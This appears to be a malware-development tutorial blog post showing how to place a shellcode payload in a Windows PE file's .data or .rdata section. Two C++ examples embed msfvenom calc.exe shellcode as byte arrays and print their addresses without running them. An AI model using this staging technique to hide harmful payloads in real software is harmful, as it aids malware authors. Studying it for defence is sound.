


## Introdocution

A payload can be stored inside to the PE file in different sections. Payloads can be stored in one of the following sections:
- `.data`
- `.rdata`
- `.text`
- `.rsrc`

in this blog post i'll show you how to store the payload in the `.data` and `.rdata` sections.

## .data Session
The .data section of a PE file contains global and static variables. This section is readable and writable, **making it suitable for an encrypted payload that require decryption during the runtime**. 

This is a snipped code offer an example of having a payload stored in the `.data` section.

```c++
#include <Windows.h>
#include <stdio.h>

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c 
// .data saved payload
unsigned char Data_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Data_RawData var : 0x%p \n", Data_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}
```
The image below shows the output of the above code snippet in xdbg. Make note of a few items within the image:
1. The .data section have the address `0x00007FF7DE25C000`
2. The `Data_RawData`'s have the same address.
3. The memory protection of the region is specified as `RW` which indicates it is a read-write region.


## .rdata Section
When use th `const` qualifier are written as constants. These types of variables are considered **"read-only"** data. The letter "r" in `.rdata` indicates this, and any attempt to change these variables will cause access violations. Furthermore, depending on the compiler and its settings, the `.data` and `.rdata` sections may be merged, or even merged into the `.text` section.

The code snippet below shows an example of having a payload stored in the `.rdata` section. The code will essentially be the same as the previous code snippet except the variable is now preceded by the `const` qualifier.

```c++
#include <Windows.h>
#include <stdio.h>

// msfvenom calc shellcode
// msfvenom -p windows/x64/exec CMD=calc.exe -f c 
// .rdata saved payload
const unsigned char Rdata_RawData[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main() {

	printf("[i] Rdata_RawData var : 0x%p \n", Rdata_RawData);
	printf("[#] Press <Enter> To Quit ...");
	getchar();
	return 0;
}
```
Using **[dumpbin.exe](https://learn.microsoft.com/en-us/cpp/build/reference/dumpbin-reference?view=msvc-170)** on the PE file we can notice that `.rdata` section contains the payload.


## References
- [Maldevacadeemy module 13](https://maldevacademy.com/modules/13?view=blocks)

